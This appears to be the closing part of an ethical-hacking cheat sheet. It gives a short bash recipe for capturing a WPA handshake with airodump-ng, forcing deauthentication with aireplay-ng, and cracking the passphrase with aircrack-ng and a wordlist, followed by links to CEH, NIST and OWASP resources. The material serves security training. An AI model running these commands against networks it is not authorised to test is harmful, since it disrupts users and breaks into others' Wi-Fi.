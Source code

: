 ### WPA handshake capture & crack (quick)
```bash
# capture
airodump-ng -c 6 --bssid <AP_BSSID> -w capture wlan0mon

# deauth to speed handshake
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT> wlan0mon

# crack
aircrack-ng capture-01.cap -w wordlist.txt -b <AP_BSSID>
```
---

- [CEH Official Courseware](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

**Happy Ethical Hacking! 🎯**
